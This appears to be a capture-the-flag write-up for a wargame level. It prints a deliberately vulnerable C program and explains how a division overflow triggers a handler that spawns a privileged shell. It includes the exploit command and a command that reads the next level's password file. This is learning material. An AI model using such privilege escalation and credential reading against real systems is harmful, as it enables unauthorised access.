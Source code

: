 ```yaml
---
sidebar_position: 2
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
    printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```
The `catcher()` function is what we want to call.

The `main()` function returns the division of the second and third argument, first being the program name itself.

The program makes `signal` syscall which sets a handler function for a signal. This handle function gets called when the signal is received.
```c
sighandler_t signal(int signum, sighandler_t _handler);
```
In our case the signal is `SIGFPE` and the handler function is `catcher()`.
If we look at the man-page, it tells us when a `SIGFPE` signal is generated.
```
Integer division by zero has undefined result.  On some architectures it will generate a SIGFPE signal.  
(Also dividing the most negative integer by -1 may generate **SIGFPE**.)
```
So `SIGFPE` is generated during divisions, and there is a division occurring in our program.

We cannot perform division by zero because our `argv[2]` is the divisor and the program doesn't allow for it to be zero.
However, `argv[2]` can be -1. Which means we just have to figure out what the most negative integer is and pass it as `argv[1]`
```
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$
```
We can cat the password for the next level now.
```
sh-4.3$ cat /home/level3/.pass
```

